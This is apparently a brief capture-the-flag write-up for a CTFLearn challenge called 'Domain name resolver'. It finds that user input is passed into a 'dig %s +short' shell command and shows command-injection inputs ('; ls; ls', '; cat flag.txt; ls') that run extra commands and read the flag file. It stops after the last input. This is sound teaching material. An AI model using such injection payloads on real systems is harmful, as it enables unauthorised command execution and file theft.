 # [Domain name resolver](https://ctflearn.com/challenge/1222)

```shell
strings task
```

```text
.
.
Enter the hostname to be resolved: 
dig %s +short
:*3$"
.
.
```

CMDi may be possible

Input: `; ls; ls`
Command executed: `dig; ls; ls +short`
We get a dig output, then a list of files (run, flag.txt) in the directory, and "ls: cannot access '+short': No such file or directory"

Input: `; cat flag.txt; ls`
